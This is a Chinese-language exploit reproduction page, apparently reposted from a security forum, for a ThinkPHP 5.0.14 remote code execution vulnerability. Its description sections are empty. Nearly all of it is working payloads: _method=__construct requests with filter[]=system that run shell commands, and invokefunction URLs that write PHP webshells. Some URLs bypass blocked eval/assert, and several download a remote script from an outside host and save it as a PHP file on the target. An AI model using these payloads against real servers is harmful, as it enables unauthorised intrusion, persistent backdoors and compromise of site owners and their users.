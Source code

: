 # Thinkphp 5.0.14

> 原文：[https://www.zhihuifly.com/t/topic/3151](https://www.zhihuifly.com/t/topic/3151)

# Thinkphp 5.0.14

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、常规命令

```
?s=index/think\app/invokefunction&function=&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php.jpg&vars[1][]=%3C?php%20phpinfo();?3E 
```

### 2、eval（''）和assert（''）被拦截，命令函数被禁止

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo(); 
```

```
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js"))); 
```

### 3、基于php7.2环境下

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1 
```

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>
写进去发现转义了尖括号 
```

### 4、通过copy函数

```
 http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php 
```